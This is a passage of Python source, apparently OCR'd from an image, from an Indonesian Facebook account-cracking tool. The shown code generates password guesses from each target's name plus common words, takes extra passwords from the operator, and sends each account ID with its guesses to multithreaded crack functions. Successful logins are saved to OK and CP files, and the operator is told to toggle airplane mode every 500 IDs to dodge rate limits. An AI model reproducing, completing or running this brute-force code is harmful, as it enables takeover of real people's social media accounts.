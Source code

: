 		pwpluss.append('ya')
		print('='*51)
		print('Masukkan Katasandi Tambahan Minimal 6 Karakter\n Contoh : kakak,ngentod,adik')
		print('='*51)
		print('='*51)
		pwku=input('Masukkan Password Tambahan : ')
		print('='*51)
		pwkuh=pwku.split(',')
		for xpw in pwkuh:
			pwnya.append(xpw)
	else:
		pwpluss.append('no')
	passwrd()
#-------------------[ BAGIAN-WORDLIST ]------------#
def passwrd():
	print('='*51)
	print(f'>> Hasil {h}OK{x} Tersimpan Di : {h}OK/%s {x}'%(okc))
	print(f'>> Hasil {k}CP{x} Tersimpan Di : {k}CP/%s {x}'%(cpc))
	print(f'>> Mainkan Mode Pesawat Setiap {m}500{x} Idz')
	print('='*51)
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append('sayang')
					pwv.append('sayang123')
					pwv.append('keluarga')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append('sayang')
					pwv.append('sayang123')
					pwv.append('keluarga')
					
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'beta' in method:
				pool.submit(crackbeta,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	print('='*51)
	print(f'[{b}•{x}]{h} OK : {h}%s '%(ok))
	print(f'{x}[{b}•{x}]{k} CP : {k}%s{x} '%(cp))